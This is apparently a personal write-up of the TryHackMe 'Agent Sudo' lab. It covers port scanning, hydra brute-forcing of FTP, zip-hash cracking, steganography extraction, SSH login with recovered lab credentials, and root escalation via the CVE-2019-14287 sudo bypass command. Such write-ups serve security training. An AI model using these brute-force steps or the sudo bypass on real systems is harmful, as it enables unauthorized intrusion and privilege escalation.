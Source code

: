```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, web, privesc, bruteforce, hydra, suid, john, crack, gobuster]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Agent_sudo/0.png
    alt: Agent sudo
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

### Task 2: Enumerate
### Task 3: Hash cracking and brute-force
### Task 4: Capture the user flag  
### Task 5: Privilege escalation



## Enumerate
### nmap

```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/1.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/2.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

## bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/3.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/4.png)


we got the file, concatenate it:  
![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/5.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/6.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/10.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/7.png)

## Privilege escalation
Run sudo -l  
![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/8.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![](/assets/img/try%20hack%20me%20/Easy/Agent_sudo/9.png)
